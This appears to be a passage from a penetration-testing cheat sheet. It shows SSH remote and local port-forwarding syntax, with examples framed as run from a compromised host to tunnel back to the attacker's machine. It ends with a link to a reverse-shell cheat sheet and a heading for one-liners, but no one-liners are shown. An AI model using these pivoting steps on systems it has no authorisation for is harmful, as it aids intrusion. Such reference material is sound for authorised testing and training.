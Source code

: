 <span id="anchor-63"></span>Tunneling

<span id="anchor-64"></span>SSH Tunnels

<span id="anchor-65"></span>SSH Remote Port Forwarding

|                                                                                          |
| ---------------------------------------------------------------------------------------- |
| ssh **\<gateway\>** -R **\<remote port to bind\>**:**\<local host\>**:**\<local port\>** |

  - **\<gateway\>** = The Hostname/IP of the machine you are working
    from.
  - **\<localhost\>** = The local IP of the machine that you have a
    shell open on. I.e. 127.0.0.1
  - **\<remote port to bind\>** = The local port of the machine that you
    have a shell open on. This is the port that you will connect to.
  - **\<local port\>** = The port that the service you want to connect
    to is running.

**EXAMPLE: **ssh 10.0.0.20 -R 3390:127.0.0.1:3389

In the above example, this command is being run from the compromised
system. You are connecting back to your working machine. 127.0.0.1:3390
on your working machine is now connected to port 3389 on the compromised
system.

<span id="anchor-66"></span>SSH Local Port Forwarding

|                                                                                             |
| ------------------------------------------------------------------------------------------- |
| ssh **\<gateway\>** -L **\<local port to listen\>**:**\<remote host\>**:**\<remote port\>** |

  - **\<gateway\>** = The Hostname/IP of the machine you are working
    from.
  - **\<remote host\>** = The IP address of the server you would like to
    redirect traffic to.
  - **\<local port to listen\>** = The local port of the machine that
    you have a shell open on.
  - **\<remote port\>** = The port on the remote server that you would
    like to redirect traffic to.

**EXAMPLE:** ssh 10.0.0.20 -L 8080:11.11.11.11:80

In the above example, this command is being run from the compromised
system. You are attempting to forward traffic on the compromised system
from 127.0.0.1:8080 to the remote web server hosted on 11.11.11.11:80.

<span id="anchor-67"></span>Reverse Shells

[*http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet*](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

<span id="anchor-68"></span>One-Liners

Try substituting “cmd.exe” instead of “/bin/sh” or “/bin/bash” to make
these work in Windows.
